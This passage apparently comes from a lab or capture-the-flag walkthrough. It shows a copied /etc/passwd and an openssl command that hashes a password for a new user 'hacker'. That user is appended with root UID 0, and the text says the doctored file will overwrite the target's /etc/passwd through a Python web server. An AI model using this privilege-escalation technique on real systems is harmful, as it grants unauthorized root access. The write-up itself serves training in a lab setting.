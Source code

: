 We’ll create a local copy of the file on our attacking machine.

```
┌──(kali㉿kali)-[~]
└─$ cat passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

Next, we’ll use `openssl` to create a salted password hash in the *passwd* format for a new user `hacker` with the password `pass123` and append it to our local **passwd** file like so:

```
┌──(kali㉿kali)-[~]
└─$ openssl passwd -1 -salt hacker pass123
$1$hacker$zVnrpoW2JQO5YUrLmAs.o1

┌──(kali㉿kali)-[~]
└─$ echo 'hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash' >> passwd

┌──(kali㉿kali)-[~]
└─$ cat passwd                                                                       
root:x:0:0:root:/root:/bin/bash
...
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
```

With our python web server still running on port 80, we’ll go ahead  and download the modified file to the target, overwriting the target’s  own **/etc/passwd** file.
